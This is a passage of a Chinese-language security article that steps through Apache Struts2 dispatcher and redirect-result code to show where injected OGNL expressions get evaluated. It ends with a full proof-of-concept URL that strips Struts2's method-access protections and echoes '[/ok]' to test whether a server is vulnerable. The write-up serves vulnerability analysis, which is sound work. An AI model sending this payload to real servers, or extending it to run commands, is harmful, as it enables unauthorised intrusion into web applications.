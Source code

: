 Dispatcher应该是再熟悉不过了，因为刚才已经在dispatcher里面转悠了一圈回来。现在调用的是dispatcher的 serviceAction方法。

`public void serviceAction`(参数在上面executeAction太长了就不写了)：

![2013072423392595135.png](http://drops.javaweb.org/uploads/images/5637b8ab2ef8fbf1e49de9bea1e3f12b709b2890.jpg)

Excute在`excuteorg.apache.struts2.dispatcher.ServletRedirectResult`类，具体方法如下：

```
public void execute(ActionInvocation invocation) throws Exception {
        if (anchor != null) {
            anchor = conditionalParse(anchor, invocation);
        }
        super.execute(invocation);
    }
    super.execute(org.apache.struts2.dispatcher.StrutsResultSupport)

```

即执行其父类的execute方法。上面的anchor为空。

![2013072423394531727.png](http://drops.javaweb.org/uploads/images/93b109274bf2aa06c569775aa0a0301366607312.jpg)

重点就在translateVariables（翻译变量的时候把我们的Ognl执行了）：

![2013072423400110460.png](http://drops.javaweb.org/uploads/images/69ea0d62c3a309527e5c42ec5b2ba9a35b9e41e8.jpg)

![2013072423401877957.png](http://drops.javaweb.org/uploads/images/624674b6285d0cbe415d5ec257be763990597d22.jpg)

```
Object result = parser.evaluate(openChars, expression, ognlEval, maxLoopCount);
    return conv.convertValue(stack.getContext(), result, asType);

```

最终执行：

![2013072423403243660.png](http://drops.javaweb.org/uploads/images/62a897c160a99573a30e3803f97d5af1ba2750b2.jpg)

F8放过页面输出[/ok]：

![2013072423404664438.png](http://drops.javaweb.org/uploads/images/ad08ba8877715722dfe9f16bfb9110fa4d892a6c.jpg)

#### **解密Struts2的“神秘”的POC：**

在S2-016出来之后Struts2以前的POC拿着也没什么用了，因为S2-016的威力已经大到让百度、企鹅、京东叫唤了。挑几个简单的具有代表性的讲下。在连续不断的看了这么多坑爹的概念以后不妨见识一下Struts2的常用POC。

**回显POC**(快速检测是否存在（有的s2版本无法输出）,看见输出[/ok]就表示存在)：

POC1:

```
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman.getWriter().println(%22[/ok]%22)')(d))&(i99)(('\43xman.getWriter().close()')(d))

```
